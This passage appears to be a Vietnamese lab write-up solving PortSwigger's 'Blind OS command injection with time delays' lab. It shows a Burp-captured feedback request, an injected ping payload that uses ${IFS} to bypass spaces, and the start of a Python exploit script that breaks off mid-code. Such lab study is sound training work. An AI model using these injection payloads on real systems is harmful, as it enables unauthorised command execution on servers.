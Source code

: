 mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/rJcweF5Yp.png)

## 2. Lab: Blind OS command injection with time delays

link: https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

### Đề bài

![image](https://hackmd.io/_uploads/BkygSjqKa.png)

### Phân tích

<ul>
    <li>Bài này cũng tương tự như bài trước, tuy nhiên có lỗi ở mục feedback, và để solve bài lab hãy khai thác lỗi blind os command để gây ra độ trễ 10s.</li>
    <li>Cũng giống bài trước, mình vẫn dùng burp suite để bắt trang feedback</li>
</ul>

![image](https://hackmd.io/_uploads/By-X8jcYT.png)

![image](https://hackmd.io/_uploads/B1VMIi9t6.png)

chúng ta cần thực hiện Blind OS command injection bằng cách nhận biết độ delay của gói tin response = 10

### Khai thác

mình đã thực hiện lệnh ping đến localhost vs 10 gói tin ICMP

```
ping${IFS}-c${IFS}10${IFS}127.0.0.1
```

trong đó mặc định khi không có giá trị sẽ là khoảng trắng

![image](https://hackmd.io/_uploads/HycJOjct6.png)

và sau 10 giây mình thấy gói tin mới phản hồi

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup
from datetime import datetime

url = 'https://0a7e002004ee7302816d61fe0071006c.web-security-academy.net'

session = requests.Session()

cookies = {
    'session': '5fxpKOoeqMtHkgehCwNiHIChS3joOhi1',
}

send_post = datetime.now()
t1=send_post.strftime("%H:%M:%S")
print(t1)

data = {
    'csrf': 'rLqCvxqOBdoSCiM6tlZf5LY2mcicEUFN',
```